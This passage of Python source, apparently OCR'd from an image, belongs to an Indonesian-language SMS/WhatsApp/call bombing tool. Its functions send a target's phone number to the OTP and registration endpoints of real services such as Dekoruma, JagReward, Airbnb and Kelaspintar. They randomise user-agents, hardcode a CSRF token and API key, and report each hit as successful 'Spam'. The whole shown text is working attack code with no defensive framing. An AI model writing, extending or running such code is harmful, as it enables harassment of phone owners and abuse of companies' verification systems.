 'user-platform': 'mobile',
'x-company-name': 'odi',
'x-frontend-type': 'mobile',
}
     dataurl = {"phone":"0"+nom,"email":"ubetubed@gmail.com","action":"register","password":""}
     dataurljson = json.dumps(dataurl)
     dataurl2 = {"phone":"0"+nom,"action":"register","channel":"chat","email":"","customer_id":"0","is_resend":0}                                    
     dataurl2json = json.dumps(dataurl2)
     a = ru.post(url,headers=hdurl,data=dataurljson).text
     b = ru.post(url2,headers=hdurl2,data=dataurl2json).text
     c = json.loads(b)
     if c['message'] == 'success':
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({im}WA{kan}) {ken}RupaRupa{kan} OK")
     else:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({im}WA{kan}) {ken}RupaRupa{kun} Gagal abang jago")
 def dekoruma(nom):
     data = json.dumps({"phoneNumber":"+62"+nom,"platform":"wa"})
     r = ru.Session()
     for x in range(1):
      cal = r.post("https://auth.dekoruma.com/api/v1/register/request-otp-phone-number/?format=json",headers={"content-type": "application/json","user-agent":ua.random},data=data).text
     if '' in cal:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({im}WA{kan}) {ken}Dekoruma{kan} OK")
     else:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({im}WA{kan}) {ken}Dekoruma{kun} Gagal abang jago")
 def jag(nom):
     p = ru.get("https://id.jagreward.com/member/verify-mobile/"+nom)
     y = json.loads(p.text)
     if y["message"] == 'Anda akan menerima sebuah panggilan dari sistem kami. Silakan isi 6 ANGKA TERAKHIR dari nomor telepon dibawah ini.':print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({anj}CALL{kan}) {ken}JagReward{kan} OK")
     else:print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({anj}CALL{kan}) {ken}JagReward{kun} Gagal abang jago")
 def airbnb(nom):
     head = {
        "Host": "www.airbnb.co.id",
        "content-length": "83",
        "device-memory": "2",
        "x-csrf-token": "V4$.airbnb.co.id$N_Kx2ju9iX8$gUBHaO73_UKCj4rDt2rHVNj7zvmZfOYgz38XKc9dzKw=",
        "x-csrf-without-token": "1",
        "user-agent": ua.random ,
        "viewport-width": "360",
        "content-type": "application/json",
        "accept": "application/json, text/javascript, */*; q=0.01",
        "cache-control": "no-cache",
        "x-requested-with": "XMLHttpRequest",
        "origin": "https://www.airbnb.co.id",
        "referer": "https://www.airbnb.co.id/signup_login?redirect_url=/help",
        }
     dat = json.dumps({"phoneNumber": "62"+nom,"workFlow":"GLOBAL_SIGNUP_LOGIN","otpMethod":"TEXT"})
     for x in range(5):
      cal = ru.post("https://www.airbnb.co.id/api/v2/phone_one_time_passwords?currency=US&key=d306zoyjsyarp7ifhu67rjxn52tv0t20&locale=id",data=dat,headers=head)
     if 'internationalPhoneNumber' in cal.text:
         print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}Airbnb{kan} OK")
     else:
         print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}Airbnb{kun} Gagal abang jago")
 def kelaspintar(nom):
     r = ru.Session()
     headers={
          'x-requested-with':'XMLHttpRequest',
          'User-Agent':ua.random ,
          'Referer':'https://www.kelaspintar.id/',